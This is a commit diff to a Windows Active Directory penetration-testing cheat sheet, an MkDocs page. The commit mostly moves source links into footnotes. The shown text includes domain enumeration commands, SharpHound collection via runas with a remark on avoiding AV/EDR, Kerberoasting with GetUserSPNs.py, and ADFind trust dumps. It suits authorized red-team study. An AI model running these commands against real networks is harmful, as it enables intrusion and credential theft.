

Before and after one commit to trojand/cheatsheet, an MkDocs documentation site: the page built from docs/Windows/Initial_Foothold.md, in a window 1280 px wide and 1400 px high, scrolled down 1006 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Update Initial_Foothold.md

````diff
--- a/docs/Windows/Initial_Foothold.md
+++ b/docs/Windows/Initial_Foothold.md
@@ -27,8 +27,7 @@ net group "domain admins" /domain
 klist
 ```
 ___
-## NLTest
-   * Source: [ired.team](https://www.ired.team/offensive-security-experiments/offensive-security-cheetsheets)
+## NLTest[^1]
 
 ```batch
 nltest /dclist:<domain>
@@ -36,8 +35,7 @@ nltest /dsgetdc:<domain>
 nltest /domain_trusts /all_trusts
 ```
 ___
-## Powershell Enumeration
-   * Source: [ired.team](https://www.ired.team/offensive-security-experiments/offensive-security-cheetsheets)
+## Powershell Enumeration[^1]
 
 ```powershell
 [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
@@ -49,9 +47,7 @@ ___
 
 ## [Dumping credentials](../../#dumping-credentials)
 ___
-## Bloodhound (Sharphound)
-
-* Source: [hausec](https://hausec.com/2019/03/12/penetration-testing-active-directory-part-ii/)
+## Bloodhound (Sharphound)[^2]
 
 1. On local machine  (~Kali)
 
@@ -67,27 +63,24 @@ sudo apt install neo4j bloodhound
 bloodhound
 ```
 
-1. Sharphound Officialy supported ingestors
-   * Running the official/supported Sharphound ingestors collects more information
-       * although Bloodhound.py is good for most cases
-   * Source:
-       * [Github](https://github.com/BloodHoundAD/BloodHound/tree/master/Ingestors)
-       * [ReadTheDocs](https://bloodhound.readthedocs.io/en/latest/data-collection/sharphound.html)
-```powershell
-# If logged in on a local user account but have domain user credentials, then on the command-line
-C:\> runas /netonly /user:<DOMAIN>\<username> powershell.exe
+1. Sharphound Officialy supported ingestors [^3][^4]
+   * Running the official/supported Sharphound Collectors collects more information [
+       * although Bloodhound.py is quick and good for most cases
+   * Runas
+       * If logged in on a local user account but have domain user credentials, then on the command-line
+       * This works also to get SharpHound to work and ingest data even if your own Windows VM is not part of the Domain.
+           * This bypasses the need to run SharpHound ps1 on the host itself with AVs/ERDs
+   ```powershell
+   C:\> runas /netonly /user:<DOMAIN>\<username> powershell.exe
 
-# then on the spawned powershell
-Import-Module .\SharpHound.ps1
-Invoke-BloodHound -CollectionMethod All -CompressData -RemoveCSV -NoSaveCache
-```
+   # then on the spawned powershell
+   Import-Module .\SharpHound.ps1
+   Invoke-BloodHound -CollectionMethod All -CompressData -RemoveCSV -NoSaveCache
+   ```
 
 ___
 ## General Attack methods
-* Sources:
-    * [Red Siege](https://www.redsiege.com/wp-content/uploads/2020/04/20200430-kerb101.pdf)
-    * [Orange Cyberdefense](https://raw.githubusercontent.com/Orange-Cyberdefense/arsenal/master/mindmap/pentest_ad.png)
-* Methods
+* Methods [^5][^6]
      * Golden Ticket
          * Requires full domain compromise.
          * Used for persistenceand pivoting
@@ -106,10 +99,7 @@ ___
 ___
 
 ## Kerberoasting
-* Source:
-    * [hausec](https://hausec.com/2019/03/12/penetration-testing-active-directory-part-ii/)
-    * [Tarlogic Security](https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a)
-1. From Linux
+1. From Linux [^1][^7]
     * Beware of time difference of the attacking machine (Kali) and the targeted Domain Controller
     ```bash
     GetUserSPNs.py -debug -request -outputfile TGS_file.txt -dc-ip <DC_IP_Address> <FQDN>/<username>
@@ -138,11 +126,18 @@ Source: [Pure Security](https://pure.security/dumping-windows-credentials/)
 
 ___
 
-## ADFind
-* Source:
-    * [redcanary](https://redcanary.com/threat-detection-report/techniques/domain-trust-discovery/)
-
+## ADFind[^9]
 ```batch
 adfind.exe -f objectclass=trusteddomain
 adfind.exe -sc trustdmp
 ```
+
+[^1]: [ired.team](https://www.ired.team/offensive-security-experiments/offensive-security-cheetsheets)
+[^2]: [hausec](https://hausec.com/2019/03/12/penetration-testing-active-directory-part-ii/)
+[^3]: [Github - Bloodhound](https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors)
+[^4]: [ReadTheDocs - Bloodhound](https://bloodhound.readthedocs.io/en/latest/data-collection/sharphound.html)
+[^5]: [Red Siege](https://www.redsiege.com/wp-content/uploads/2020/04/20200430-kerb101.pdf)
+[^6]: [Orange Cyberdefense](https://raw.githubusercontent.com/Orange-Cyberdefense/arsenal/master/mindmap/pentest_ad.png)
+[^7]: [Tarlogic Security](https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a)
+[^8]: [Pure Security](https://pure.security/dumping-windows-credentials/)
+[^9]: [Redcanary](https://redcanary.com/threat-detection-report/techniques/domain-trust-discovery/)
````
Also changed, not shown: other parts of docs/Windows/Initial_Foothold.md (+1 -3 lines).
